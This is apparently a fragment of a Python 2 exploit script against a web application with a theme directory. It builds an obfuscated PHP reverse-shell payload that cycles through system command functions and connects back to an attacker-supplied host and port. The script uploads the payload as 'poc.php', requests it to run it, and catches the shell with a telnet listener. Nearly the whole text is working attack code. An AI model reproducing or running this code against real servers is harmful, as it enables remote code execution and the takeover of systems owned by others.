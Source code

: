 ```python
        phpkode += ("""$o.=fread($fp,1024);}}@pclose($fp);}else""")
        phpkode += ("""if($imARhD('proc_open')and!$kqqI('proc_open',$dis)){ """)
        phpkode += ("""$handle=proc_open($c,array(array(pipe,'r'),array(pipe,'w'),array(pipe,'w')),$pipes); """)
        phpkode += ("""$o=NULL;while(!feof($pipes[1])){$o.=fread($pipes[1],1024);} """)
        phpkode += ("""@proc_close($handle);}else if($imARhD('system')and!$kqqI('system',$dis)){ """)
        phpkode += ("""ob_start();system($c);$o=ob_get_contents();ob_end_clean(); """)
        phpkode += ("""}else if($imARhD('passthru')and!$kqqI('passthru',$dis)){ob_start();passthru($c); """)
        phpkode += ("""$o=ob_get_contents();ob_end_clean(); """)
        phpkode += ("""}else if($imARhD('shell_exec')and!$kqqI('shell_exec',$dis)){ """)
        phpkode += ("""$o=shell_exec($c);}else if($imARhD('exec')and!$kqqI('exec',$dis)){ """)
        phpkode += ("""$o=array();exec($c,$o);$o=join(chr(10),$o).chr(10);}else{$o=0;}return $o;}} """)
        phpkode += ("""$nofuncs='no exec functions'; """)
        phpkode += ("""if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){ """)
        phpkode += ("""$s=@fsockopen('tcp://%s','%d');while($c=fread($s,2048)){$out = ''; """ % (self.cb_host, self.cb_port))
        phpkode += ("""if(substr($c,0,3) == 'cd '){chdir(substr($c,3,-1)); """)
        phpkode += ("""}elseif (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit'){break;}else{ """)
        phpkode += ("""$out=LcNIcoB(substr($c,0,-1));if($out===false){fwrite($s,$nofuncs); """)
        phpkode += ("""break;}}fwrite($s,$out);}fclose($s);}else{ """)
        phpkode += ("""$s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);@socket_connect($s,'%s','%d'); """ % (self.cb_host, self.cb_port))
        phpkode += ("""@socket_write($s,"socket_create");while($c=@socket_read($s,2048)){ """)
        phpkode += ("""$out = '';if(substr($c,0,3) == 'cd '){chdir(substr($c,3,-1)); """)
        phpkode += ("""} else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') { """)
        phpkode += ("""break;}else{$out=LcNIcoB(substr($c,0,-1));if($out===false){ """)
        phpkode += ("""@socket_write($s,$nofuncs);break;}}@socket_write($s,$out,strlen($out)); """)
        phpkode += ("""}@socket_close($s);} """)
        return phpkode

    def handler(self):
        print "(+) starting handler on port %d" % self.cb_port
        t = telnetlib.Telnet()
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind(("0.0.0.0", self.cb_port))
        s.listen(1)
        conn, addr = s.accept()
        print "(+) connection from %s" % addr[0]
        t.sock = conn
        print "(+) pop thy shell!"
        t.interact()

    def exec_code(self):
        handlerthr = Thread(target=self.handler)
        handlerthr.start()
        requests.get("http://%s/%s/theme/poc.php" % (self.target, self.path))

    def exploit(self):
        print "(+) targeting: http://%s%s" % (self.target, self.path)
        if self.get_version():
            if self.check_htaccess():
                if self.un == None:
                    # requires directory listing
                    self.check_username_disclosure()
                self.set_cookies()
                self.upload('poc.php', "<?php %s" % self.build_php_code())
                print "(+) triggering connectback to: %s:%d" % (self.cb_host, self.cb_port)
                self.exec_code()
        else:
```